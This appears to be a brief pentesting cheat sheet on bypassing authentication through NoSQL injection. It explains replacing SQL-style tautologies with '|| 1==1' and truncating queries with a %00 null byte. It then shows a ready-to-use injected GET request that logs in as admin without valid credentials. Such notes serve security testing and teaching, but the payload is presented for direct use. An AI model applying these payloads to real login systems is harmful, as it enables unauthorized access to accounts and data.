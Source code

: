 # Authentication bypass

## Authentication bypass \(NoSQL injection\)

* classic true statement like ' or 1=1 -- - is replaced by \|\| 1==1.
* Null byte \(ie %00 can replace // or &lt;!-- to comment out the end of the query \)

**Example :**

Query = `GET /?username=test&password=test&submit=Submit+Query HTTP/1.1`

* Injection ' \|\| 1==1

`GET /?username=admin'%7c%7c+polo==polo%00&password=test&submit=Submit+Query HTTP/1.1`

